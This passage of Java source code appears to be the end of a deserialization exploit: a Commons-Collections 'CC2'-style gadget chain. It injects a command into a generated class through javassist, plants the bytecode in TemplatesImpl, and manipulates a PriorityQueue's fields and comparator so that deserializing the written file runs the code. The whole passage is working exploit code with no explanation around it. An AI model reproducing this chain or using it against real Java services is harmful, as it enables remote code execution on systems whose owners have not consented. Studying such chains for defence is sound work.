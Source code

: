 ```
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        //cc.writeFile();
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        setFieldValue(templates, "_name", "DawnT0wn");
        setFieldValue(templates, "_class", null);

        Object[] queue_array = new Object[]{templates,1};
        Field queue_field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
        queue_field.setAccessible(true);
        queue_field.set(queue,queue_array);

        Field size = Class.forName("java.util.PriorityQueue").getDeclaredField("size");
        size.setAccessible(true);
        size.set(queue,2);


        Field comparator_field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        comparator_field.setAccessible(true);
        comparator_field.set(queue,Tcomparator);

        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc2Test2.bin"));
            outputStream.writeObject(queue);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc2Test2.bin"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
    }

    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}
```
